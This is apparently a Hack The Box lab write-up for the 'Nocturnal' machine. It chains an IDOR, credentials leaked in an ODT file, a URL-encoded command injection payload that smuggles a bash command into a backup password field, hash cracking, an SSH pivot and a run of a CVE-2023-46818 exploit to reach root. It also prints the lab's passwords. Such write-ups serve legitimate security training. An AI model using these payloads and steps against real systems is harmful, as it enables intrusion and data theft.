<div align="left">


</div>

---

## Nocturnal — Hack The Box Write-Up

<div align="left">

<br>
<br>


</div>

Nocturnal is a Medium Linux machine focused on broken access control, command injection, credential abuse, and local service exploitation, demonstrating how a simple IDOR vulnerability can escalate into full root compromise when chained correctly.

- IDOR exploitation
- Credential extraction from ODT
- Command injection via backup feature
- SQLite database dumping
- Hash cracking & SSH pivot
- ISPConfig exploitation (CVE-2023-46818)
- Full privilege escalation to root

---

## 🛠 Tools

```
nmap        → service discovery
ffuf        → user fuzzing (IDOR validation)
burpsuite   → request interception
sqlite3     → database extraction
hashcat     → password cracking
ssh         → lateral movement
python3     → ISPConfig exploit execution
```

---

## Reconnaissance & Enumeration

### Full Port Scan

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.64 -oG allPorts
```



Results

```
22/tcp open  ssh
80/tcp open  http
```

Add host:

```bash
echo "10.10.11.64 nocturnal.htb" | sudo tee -a /etc/hosts
```

Visit:

```
http://nocturnal.htb
```



Application allows registration and login.

---

## Initial Web Access

After registering and logging in, a file upload feature becomes available.




Directory enumeration reveals:

```
view.php
```



URL structure:

```
http://nocturnal.htb/view.php?username=USER&file=FILE
```

Intercepted parameters:

```
username=
file=
```

Initial thought: LFI
Actual issue: Broken Access Control (IDOR)

---

## IDOR Exploitation

IDOR allows direct access to objects by modifying identifiers without authorization checks.

Example:

```
view.php?username=amanda&file=privacy.odt
```

To enumerate valid users:

```bash
ffuf -u 'http://nocturnal.htb/view.php?username=FUZZ&file=test.pdf' \
-w wordlist.txt \
-mc 200 \
-fr "User not found." \
-H "Cookie: PHPSESSID=YOUR-COOKIE"
```


Valid users discovered:

- amanda
- tobias
- admin

Testing manually shows:

```
amanda → privacy.odt
```

---

## Credential Extraction from ODT

Download file:



Extract contents:

```bash
unzip privacy.odt
```

Inside `content.xml`:

```
Username: amanda
Password: arHkG7HAI68X8s1J
```



Login as Amanda.

---

## Admin Panel & Command Injection

Amanda’s dashboard reveals:

“Go to Admin Panel”



Backup feature allows password input.



Testing input reveals command execution behavior.

Payload used:

```
%0Abash%09-c%09"sqlite3%09/var/www/nocturnal_database/nocturnal_database.db%09.dump%09>%09/tmp/nocturnal.txt"%0A
```

Decoded:

```bash
bash -c "sqlite3 /var/www/nocturnal_database/nocturnal_database.db .dump > /tmp/nocturnal.txt"
```


Database successfully dumped.

Retrieve contents:

```bash
cat /tmp/nocturnal.txt
```

Hash for `tobias` extracted.

---

## Hash Cracking

```bash
hashcat -m 0 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

Recovered password:

```
slowmotionapocalypse
```

---

## SSH Pivot

```bash
ssh tobias@nocturnal.htb
```

Password:

```
slowmotionapocalypse
```

User access confirmed.

```bash
cat user.txt
```



---

## Privilege Escalation

### ISPConfig Discovery

Under `/var/www`:



Check services:

```bash
netstat -tulnp
```

Port 8080 running locally.

ISPConfig identified (web-based hosting control panel).

---

### Port Forwarding

```bash
ssh -L 8080:localhost:8080 tobias@nocturnal.htb
```

Access locally:

```
http://localhost:8080
```


Login successful with:

```
Username: admin
Password: slowmotionapocalypse
```



---

## Exploiting CVE-2023-46818

CVE-2023-46818 allows authenticated remote command execution in vulnerable ISPConfig versions.

Exploit copied to `/tmp`:



Execute:

```bash
python3 exploit.py http://localhost:8080 admin slowmotionapocalypse
```

Root shell obtained.

---

## Root Flag

```bash
cat /root/root.txt
```



Root access confirmed.

---

## Attack Flow

1. Service enumeration (SSH, HTTP)
2. Identified IDOR in `view.php`
3. Fuzzed usernames
4. Retrieved Amanda’s ODT file
5. Extracted credentials
6. Accessed admin panel
7. Exploited command injection
8. Dumped SQLite database
9. Cracked Tobias hash
10. SSH access gained
11. Discovered local ISPConfig
12. Port-forwarded service
13. Exploited CVE-2023-46818
14. Privilege escalation to root

## 🧠 What This Machine Teaches

- Broken access control can be catastrophic
- Structured document formats often leak sensitive data
- Command injection may hide in logic-based features
- Credential reuse multiplies impact
- Local services frequently provide escalation paths

---

## 📌 Conclusion

Nocturnal demonstrates how structured enumeration and logical vulnerability chaining lead to full system compromise without brute force.

> _Credential reuse multiplies impact_

---

This work is part of **FuzzRaiders’ structured hands-on training and research program**, where every lab, project, and technical study is formally documented, reviewed, and validated to ensure real-world applicability, methodological rigor, and real-world security execution

Happy hacking 🚀

# Author: Z4B0 [LinkedIn](https://www.linkedin.com/in/mahamud-abdirahman-151493375/)
